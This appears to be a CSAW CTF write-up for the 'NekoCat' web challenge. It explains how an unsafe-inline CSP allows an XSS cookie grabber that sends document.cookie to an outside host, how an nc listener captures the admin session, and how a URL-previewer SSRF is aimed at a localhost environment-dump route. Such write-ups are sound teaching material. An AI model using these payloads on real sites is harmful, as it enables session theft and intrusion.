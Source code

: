 # NekoCat WEB 500 
![NikoCat](http://web.chal.csaw.io:1003/static/favicon.ico)
## Difficulty: ★★★★★

Link: http://web.chal.csaw.io:1003

# Idea

> * Bypass CSP by Abusing XSS Filter using inline
> * Escalate user permissions
> * Abusing URL Parser to read environment variables
> * Craft malicious session lead to RCE

# Walkthrough
description provide us the source code of the challenge 
[flagon.zip](https://ctf.csaw.io/files/a75d5b38afc3d477873e8ce01c468d85/flagon.zip)

we notice that challange uses Python Flask
so let's create account and try to see what's happen there 
http://web.chal.csaw.io:1003/register

![NikoCat](https://screenshotscdn.firefoxusercontent.com/images/ae6ec98e-8b7c-4909-9fc6-a2c6fe880bf5.png)

we try to post link but we can see only verfied users can preview link 

> app.py Line:152
```python
if verified_user(session, request.session.get('username'))[0]:
    preview = get_post_preview(link)
 ```
so the idea here is to get permession of verfied user in plateform
we can trigger an XSS attack to steal cookies from admin maybe
but when we dig more in the source code we see there is CSP rules implemented
> app.py Line:51
```python
def apply_csp(f):
    @wraps(f)
    def decorated_func(*args, **kwargs):
        resp = f(*args, **kwargs)
        csp = "; ".join([
                "default-src 'self' 'unsafe-inline'",
                "style-src " + " ".join(["'self'",
                                         "*.bootstrapcdn.com",
                                         "use.fontawesome.com"]),
                "font-src " + "use.fontawesome.com",
                "script-src " + " ".join(["'unsafe-inline'",
                                          "'self'",
                                          "cdnjs.cloudflare.com",
                                          "*.bootstrapcdn.com",
                                          "code.jquery.com"]),
                "connect-src " + "*"
              ])
        resp.headers["Content-Security-Policy"] = csp

        return resp
    return decorated_func
```
CSP is allowing javascript inline resources
so we can excute XSS in URL

![NikoCat](https://screenshotscdn.firefoxusercontent.com/images/e1458bad-b01f-4941-ba36-9c2ebb1e2020.png)

> but hold on xss triggred on when admin click on link

after another dig in plateform we noticed missing part 
> app.py Line:178
```python
@app.route('/report')
@apply_csp
def report(request):
    #: neko checks for naughtiness
    #: neko likes links
    pass
```
so there is feature that check links that reported , this the way how our admin checks the inline XSS link

let's craft and cookie grabber 
> [link]javascript:document.location="http://pwn.com:2128/"+document.cookie

and we listen for the request and report the link for being broken 
```
root@serveur [~]# nc -l 2128
GET /session_data=%22YWzU8XcjGIq5lmuao7nR65VW3yg=?name=gANYCAAAAE5la28gQ2F0cQAu&username=gANYDQAAAG1lb3dfYzdkM2M1MDhxAC4=%22 HTTP/1.1
Host: pwn.com:2128
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:5000/post?id=20762&instance=c7d3c508-1b2a-481e-a83e-5e3214938bc5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

> Bingo we have the verfied user session so we can preview sites now 

![NikoCat](https://screenshotscdn.firefoxusercontent.com/images/0b810f23-03d8-4889-80da-559d79829b1f.png)

lets try to preview site 
> [link]http://www.google.com

it works

![NikoCat](https://screenshotscdn.firefoxusercontent.com/images/8b72962e-0868-4c32-8e89-e2442588fb7d.png)

we noticed from captured admin request that refrer is 

> Referer: http://127.0.0.1:5000/post?id=20762&instance=c7d3c508-1b2a-481e-a83e-5e3214938bc5

running on localhost 
and there is a route for reading environment variables called flaginfo

> flagon.py Line:65
```python
flaginfo_route = "/flaginfo"
        self.routes[flaginfo_route] = flagoninfo
        self.url_map.add(Rule(flaginfo_route, endpoint=flaginfo_route))
```

and the function flagoninfo()
> flagon.py Line:65
```python
def flagoninfo(request):
    if request.remote_addr != "127.0.0.1":
        return render_template("404.html")

    info = {
        "system": " ".join(os.uname()),
        "env": str(os.environ)
    }

    return render_template("flaginfo.html", info_dict=info)
```
it will be rendred if the ip adress accssed from is localhost
we have race condition here but we can use the url previewer to read it for us 

let's try 
> [link]http://127.0.0.1/flaginfo
and we got nothing ??? hmmmmmm

![NikoCat](https://screenshotscdn.firefoxusercontent.com/images/112077b8-4612-4b13-a12f-63e2d133757c.png)

after another dig in source we see that flaginfo is filtred 
> app.py Line:13
```python
def get_post_preview(url):
    scheme, netloc, path, query, fragment = url_parse(url)

    # No oranges allowed
    if scheme != 'http' and scheme != 'https':
        return None

    if '..' in path:
        return None

    if path.startswith('/flaginfo'):
        return None

    try:
        r = requests.get(url, allow_redirects=False)
    except Exception:
        return None

    soup = BeautifulSoup(r.text, 'html.parser')
    if soup.body:
        result = ''.join(soup.body.findAll(text=True)).strip()
        result = ' '.join(result.split())
        return result[:280]

    return None
```

we see this commented line 

> # No oranges allowed

and this one 
> scheme, netloc, path, query, fragment = url_parse(url)

so url been parsed , there is bug discovered by [Orange Tsai](https://twitter.com/orange_8361?lang=en)

that abuse url parsing in diffrent programing languages , even browsers 

[A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages!](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)


